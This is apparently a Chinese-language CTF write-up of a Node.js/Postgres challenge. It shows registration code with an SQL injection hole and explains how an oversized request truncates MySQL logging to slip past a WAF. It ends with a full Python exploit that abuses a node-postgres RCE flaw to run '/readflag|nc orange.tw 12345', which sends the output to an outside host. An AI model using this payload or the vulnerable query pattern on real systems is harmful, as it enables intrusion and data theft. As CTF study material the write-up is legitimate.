 ```php
    var username = req.body.username;
    var password = req.body.password;
    if (!username || !password || username.length < 4 || password.length < 4) {
        return res.end("Bye");
    } 

    password = crypto.createHash("md5").update(password).digest("hex");
    var sql = `INSERT INTO users(username, password) VALUES('${username}', '${password}') ON CONFLICT (username) DO NOTHING`;
    return client.query(sql.split(";")[0], (err, rows) => {
        if (rows && rows.rowCount == 1) {
            return res.end("Reg OK");
        } else {
            return res.end("User taken");
        }
    });
});

app.listen(31337, () => {
    console.log("Listen OK");
});


```

这个题实验室的@wdeil写了一个非常详细的分析，我就不再多写了。后面如果能够征得他的同意，再xxxx.

#### 法一：

大题思路是这样：

这个题目实现了一个WAF，它的实现过程中会有一个Mysql插入和取出的操作。

> 它先对我们请求包中的 querystring 和 body 内容进行过滤，如果发现关键字，则将该键传⼊入的值赋给 payload ，然后检查 payload 的⻓长度，如果大于0，则将 payload 和对应的 ip 插⼊入MySQL 数据库，然后再⽤回调函数检查 MySQL 数据库中你的 ip 是否存在被拦截的 payload ，如果有，这将这个请求结束，否则继续进行下⼀一步。

而MySQL 对于每次连接有最⼤包长度的限制，通过 max_allowed_packet 的配置来实现。所以，我们可以insert一个长度特别大的数据，这样insert语句就会被截断。最终，数据库中就不会有恶意payload信息，就绕过了waf。

后面就是一个前段时间Nodejs第三方库pg出得RCE，可以@Phithon博客上的[node.js + postgres 从注入到Getshell](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)文章。

最终payload：

```python
from random import randint
import requests

# payload = "union"
payload = """','')/*%s*/returning(1)as"\\'/*",(1)as"\\'*/-(a=`child_process`)/*",(2)as"\\'*/-(b=`/readflag|nc orange.tw 12345`)/*",(3)as"\\'*/-console.log(process.mainModule.require(a).exec(b))]=1//"--""" % (' '*1024*1024*16)


username = str(randint(1, 65535))+str(randint(1, 65535))+str(randint(1, 65535))
data = {
            'username': username+payload, 
                'password': 'AAAAAA'
                }
print 'ok'
r = requests.post('http://13.113.21.59:31337/reg', data=data);
print r.content
```
